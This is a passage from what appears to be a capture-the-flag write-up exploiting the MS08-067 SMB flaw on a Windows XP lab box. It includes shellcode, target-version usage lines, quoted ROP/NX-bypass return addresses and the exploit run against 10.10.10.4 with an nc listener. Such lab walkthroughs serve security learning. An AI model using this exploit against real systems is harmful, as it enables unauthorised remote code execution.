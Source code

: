     shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"



I'll take this shellcode into the script, and paste it in replacing the
default. I like to also paste in a comment above it with the `msfvenom`
command string I ran to generate it so that when I come back to it
someday, I'll know what it's doing.

#### Guess Version

The exploit requires that I know the version of Windows and the Language
pack:



    Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
    Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
    Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
    Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
    Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
    Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
    Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)



The exploit takes advantage of knowing where some little bits of code
will be in memory, and uses those bits on the path to shell. For
different version of Windows, the addresses of those gadgets will be
different. For example, from the source:



            elif (self.os == '4'):
                print 'Windows 2003 SP1 English\n'
                ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
                ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
                jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
                disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
                jumper = disableNXjumper % (
                    ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)



Based on my enumeration, I know it's Windows XP. I'm going to try target
6 first, Windows XP SP3 English (NX). If that fails, I'll come back and
try others.

#### Run Exploit

I'll open a `nc` listener, and run the exploit:



    root@kali# python ms08-067.py 10.10.10.4 6 445
    #######################################################################
    #   MS08-067 Exploit
    #   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
    #   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
    #
    #   Mod in 2018 by Andy Acer